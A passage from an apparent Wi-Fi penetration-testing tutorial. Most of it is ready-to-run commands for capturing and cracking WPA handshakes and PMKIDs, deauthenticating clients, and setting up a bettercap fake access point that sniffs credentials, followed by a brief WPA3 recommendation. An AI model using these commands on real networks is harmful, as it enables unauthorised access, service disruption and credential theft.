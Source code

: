 3. **WPA/WPA2 Handshake Capture and Cracking**
   - Capture the handshake:
     ```bash
     sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
     ```
     ```bash
     sudo airodump-ng --bssid <BSSID> --channel <CH> -w handshake wlan0
     ```
   - Crack the password with `hashcat`:
     ```bash
     hashcat -m 2500 handshake-01.hccapx wordlist.txt
     ```
   - Convert `.cap` to `.hccapx`:
     ```bash
     cap2hccapx handshake-01.cap handshake-01.hccapx
     ```

4. **PMKID-Based Attack**
   - Using `hcxdumptool`:
     ```bash
     hcxdumptool -i wlan0 -o dump.pcapng --enable_status=1
     ```
   - Extract PMKID and crack it:
     ```bash
     hcxpcapngtool -o pmkid.16800 dump.pcapng
     hashcat -m 16800 pmkid.16800 wordlist.txt
     ```

### **Step 5: Advanced Techniques**

1. **Deauthentication Attack**
   - Disrupt client connections:
     ```bash
     sudo aireplay-ng --deauth 10 -a <BSSID> wlan0
     ```

2. **Fake AP with `bettercap`**
   - Set up a fake access point:
     ```bash
     wifi.ap on
     wifi.ap.ssid "FreeWiFi"
     ```
   - Capture credentials:
     ```bash
     net.sniff on
     ```

3. **Evil Twin Attack with `hostapd`**
   - Create a rogue AP mimicking the target SSID to capture user data.

### **Step 6: Mitigation and Recommendations**

1. **Enable Strong Encryption**
   - Use WPA3 encryption where possible.
   - Avoid using WEP or vulnerable WPA configurations.
